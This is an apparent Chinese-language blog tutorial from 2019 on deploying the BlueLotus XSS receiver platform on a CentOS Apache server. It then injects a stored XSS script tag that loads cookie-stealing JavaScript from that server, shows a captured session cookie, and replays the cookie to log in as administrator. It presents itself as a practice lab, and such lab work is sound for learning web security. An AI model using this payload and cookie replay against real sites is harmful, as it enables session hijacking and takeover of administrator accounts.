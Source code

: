 ```yaml
---
title: 构造个人轻量级XSS平台获取管理员cookie并登录
date: 2019-08-17 12:45:34
categories: 旧时光
tags: 网络安全
---
```

## 一、前言
本平台是个人轻量级XSS测试平台，仅作为练习参考。
## 二、实验环境
服务器操作系统：Centos 7
Web容器：Apache
## 三、平台搭建过程
安装Apache
安装PHP
安装Git工具
从GitHub克隆XSS平台源码
删除默认网站内容
rm  -rf  /var/www/*
创建新的网站目录
mkdir  /var/www/xss
从GitHub克隆xss测试源码（https://github.com/firesunCN/BlueLotus_XSSReceiver.git）
git  clone  https://github.com/firesunCN/BlueLotus_XSSReceiver.git  /var/www/xss/
给xss目录
chmod  -R  777  /var/www/xss/
配置Apache
创建虚拟主机配置文件夹
mkdir  /etc/httpd/conf/vhost
创建并编辑虚拟机配置文件
vi  /etc/httpd/conf/vhost/httpd-vhosts.conf
添加以下内容：
```
><VirtualHost *:80>
>       DocumentRoot "/var/www/xss"
>       DirectoryIndex admin.php
></VirtualHost>
```
编辑httpd.conf文件
vi  /etc/httpd/conf/httpd.conf
![1](构造个人轻量级XSS平台获取管理员cookie并登录/1.png)
![2](构造个人轻量级XSS平台获取管理员cookie并登录/2.png)
允许使用 .htaccess文件
![3](构造个人轻量级XSS平台获取管理员cookie并登录/3.png)
添加之前创建的虚拟主机
Include  /etc/httpd/conf/vhost/httpd-vhosts.conf
![4](构造个人轻量级XSS平台获取管理员cookie并登录/4.png)
开机启动Apache服务
chkconfig  httpd  on
重新加载Apache配置文件
systemctl  start  httpd
回到浏览器访问服务器结果显示无法访问网站，经过排查是防火墙拦了。
命令行配置防火墙开放80端口
firewall-cmd --zone=public --add-port=80/tcp --permanent
重启防火墙
systemctl  restart  firewalld
安装XSS平台
访问服务器ip地址，点击安装
![5](构造个人轻量级XSS平台获取管理员cookie并登录/5.png)
主要修改后台登录密码和数据加密密码，其余保持默认，然后提交
![6](构造个人轻量级XSS平台获取管理员cookie并登录/6.png)
若报错则手动安装，手动安装步骤：
首先切换到网站跟目录
cd  /var/www/xss
将配置文件改名
mv  config_sample.php   config.php
删除install.php文件
rm  -f  install.php
若要修改密码信息只需修改config.php文件
安装成功，点击登录
![7](构造个人轻量级XSS平台获取管理员cookie并登录/7.png)
成功登录
![8](构造个人轻量级XSS平台获取管理员cookie并登录/8.png)
功能测试
点击我的JS，插入模板，选择Defualt.js，修改网站服务器ip地址
http://192.168.75.129/index.php
![9](构造个人轻量级XSS平台获取管理员cookie并登录/9.png)
生成payload
```
><script src="http://192.168.75.129/myjs/cookie.js"></script>
```
![10](构造个人轻量级XSS平台获取管理员cookie并登录/10.png)
成功获取用户cookie
ASPSESSIONIDCQBSTQBB=BHILNFDBLNPBDMOBFPHNOFBJ 
利用Google浏览器插件edit this cookie修改cookie登录
到此存储型xss注入获取管理员cookie并登录已经圆满完成。
